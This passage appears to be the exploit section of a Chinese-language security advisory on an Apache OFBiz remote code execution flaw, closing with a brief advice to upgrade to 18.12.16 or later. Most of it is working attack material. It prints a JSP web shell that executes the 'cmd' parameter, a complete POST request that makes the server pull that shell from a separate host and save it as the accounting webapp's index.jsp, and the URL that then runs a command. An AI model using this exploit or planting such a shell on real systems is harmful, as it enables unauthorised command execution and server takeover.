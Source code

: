   
  
- rcereport.txt  
  
```
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```  
  
  
```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: 127.0.0.1:8443
Cookie: OFBiz.Visitor=10002
Sec-Ch-Ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:JSESSIONID=4D720CE66E5228B4E3EFEDBA1A8D07C1.jvm1;OFBiz.Visitor=10002
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 246

DATAFILE_LOCATION=http://127.0.0.1:8000/rcereport.txt&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://127.0.0.1:8000/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=jspshell

```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXpHiaZuicy0hgzYF3IoTiaAUYiaj7ldJXb14oibU4Bgl1vTiacyQsywEFzkCQ/640?wx_fmt=png&from=appmsg "")  
  
  
最后，  
访问https://127.0.0.1:8443/accounting/index.jsp?cmd=calc。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRT4L5APoY4fEZy1sSY8fBXJds2gewQh4E3k5jXp8PmuZxUO99icWhAicWerjQe9SxfTTCCQcgPiaapw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**五、安全建议**  
  
  
升级Apache OFBiz到18.12.16及以上版本  
  
。  
  